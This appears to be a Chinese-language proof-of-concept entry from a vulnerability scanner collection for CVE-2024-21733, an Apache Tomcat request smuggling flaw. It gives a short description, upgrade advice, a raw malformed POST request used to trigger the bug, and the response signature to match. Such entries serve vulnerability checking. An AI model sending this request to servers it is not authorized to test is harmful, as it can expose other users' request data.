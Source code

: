 ﻿# Apache Tomcat HTTP 请求走私

> 更新时间：2024-02-01

> 漏洞编号：CVE-2024-21733

> 漏洞说明：由于不完整的POST请求触发了错误响应，攻击者可能获取包含其他用户先前请求数据的响应。这可能导致敏感信息泄露。建议用户升级到8.5.64或9.0.44以上版本，其中包含该问题的修复。

> 漏洞特征：

> 验证脚本：HTTP

```
POST / HTTP/1.1
Sec-Ch-Ua: "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded

X
```

> 响应代码特征：-1

> 响应内容特征：HTTP Status 400

> 上传文件定位：

> 验证文件来源：Apache Tomcat HTTP 请求走私.poc

